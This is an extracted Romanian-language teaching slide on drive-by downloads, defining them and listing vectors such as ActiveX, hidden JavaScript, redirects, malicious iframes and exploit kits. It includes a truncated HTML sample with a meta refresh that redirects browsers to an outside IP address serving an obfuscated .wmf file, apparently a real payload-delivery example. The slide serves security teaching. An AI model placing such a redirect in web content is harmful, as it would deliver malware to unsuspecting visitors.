

# Descărcări drive-by
Definiție Descărcarea software-ului malware prin navigarea pe internet fără acordul sau cunoașterea utilizatorului
Realizată printr-o multitudine de vulnerabilități
ActiveX
JavaScript ascuns
Redirects
iFrames malițios
Kit-uri de exploatare
<html><head>
<metahttp-equiv="refresh" content="5;url=http://208.109.132.50:8080/index.html/1w mYbCjFf4CM2IRMuBQdiiLyrRDOU7IO6oyrHksqoC5cvERnUj4x78od KPiSTfJiM4GCU.wmf’ ">
<style>
4